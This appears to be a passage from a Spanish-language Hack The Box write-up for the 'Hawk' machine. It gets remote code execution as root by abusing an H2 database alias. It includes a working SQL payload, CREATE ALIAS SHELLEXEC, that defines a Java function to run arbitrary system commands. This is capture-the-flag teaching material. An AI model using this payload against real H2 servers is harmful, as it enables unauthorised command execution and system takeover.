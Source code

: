 <p align="center">
<img src="/assets/hackthebox/img/machines/medium/hawk/10.png">
</p>

- Podemos obtener RCE <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>.

- Estamos como root.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hawk/11.png">
</p>

```bash
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new
java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;
CALL SHELLEXEC('id')
```

